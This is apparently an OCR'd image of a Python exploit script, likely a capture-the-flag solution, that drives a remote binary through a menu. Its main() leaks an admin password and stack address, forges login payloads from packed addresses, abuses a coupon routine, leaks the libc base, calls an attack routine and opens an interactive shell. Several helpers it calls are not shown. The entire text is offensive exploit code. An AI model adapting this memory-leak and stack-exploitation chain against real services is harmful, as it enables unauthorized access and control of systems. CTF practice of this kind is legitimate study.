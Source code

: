 ```python
def apply_coupon(coupon):
    global r
    for i in range(4):
        r.sendlineafter(b'Choice : \r\n', b'3')
        r.sendlineafter(b'coupon : \r\n', (coupon[:-1].encode() + (chr(ord(coupon[-1]) + i)).encode()))

def change_pw(new_pw):
    global r
    r.sendlineafter(b'Choice : \r\n', b'5')
    r.sendlineafter(b'Would you like to change your PW? : \r\n', b'y')
    r.sendlineafter(b'New PW : \r\n', new_pw)

def main():
    global r
    
    admin_pw, main_rbp = leak_admin_info()
    print(f'admin_pw: {admin_pw}, main_rbp: 0x{main_rbp:x}')

    set_login_cnt(0x100, b'Welcome!', p64(main_rbp - 0xd90) + p64(8) + admin_pw.encode())
    print('login 0x100 times success')

    coupon = get_coupon()[:-1]
    print(f'coupon: {coupon}')

    login(b'Welcome!', p64(main_rbp - 0xd90) + p64(8) + admin_pw.encode() + b'\x00')
    print('login "Welcome!" success')

    apply_coupon(coupon)
    print('apply coupon success')

    play_game()
    print('Win game!')

    context.log_level = 'debug'

    libc_base, another_addr = get_stack_data()
    print(f'libc_base: 0x{libc_base:x}, another_addr: 0x{another_addr:x}')
    print(f'admin_pw: {admin_pw}, main_rbp: 0x{main_rbp:x}')

    attack(main_rbp, libc_base, another_addr)

    r.sendlineafter(b'Choice : \r\n', b'3')

    r.interactive()

if __name__ == '__main__':
    main()

```